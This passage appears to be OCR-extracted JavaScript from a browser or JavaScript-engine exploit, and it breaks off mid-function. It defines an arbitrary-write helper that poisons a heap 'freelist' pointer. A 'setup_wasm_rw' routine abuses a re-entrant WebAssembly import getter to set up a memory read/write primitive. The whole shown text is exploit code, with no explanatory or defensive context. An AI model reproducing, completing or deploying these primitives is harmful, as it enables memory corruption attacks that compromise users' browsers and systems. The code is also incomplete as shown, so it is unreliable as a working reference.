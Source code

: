 ```

  return arr_to_u64(freelist).bswap();

}





function write(addr, val) {

  u64_to_arr(addr, freelist);

  //debug();

  var rw = new Uint32Array(2);

  rw.buffer;

  //debug();

  u64_to_arr(val, rw);

  //debug();

  junk.push(rw);

}



function setup_wasm_rw() {

  raw_wasm = parse_wasm_module();

  var mod = new WebAssembly.Module(raw_wasm);

  var ffi = {

    mod: {

      get imp() {

        console.log('getter');

        wasm2 = new WebAssembly.Instance(mod, {mod: {imp: function(){}}});

        spacer = new ArrayBuffer(0x10000);

        return function() {};

      }

    }

  };

  wasm = new WebAssembly.Instance(mod, ffi);

  wasm2.exports.memory.grow(1);

  console.log("memory is");

```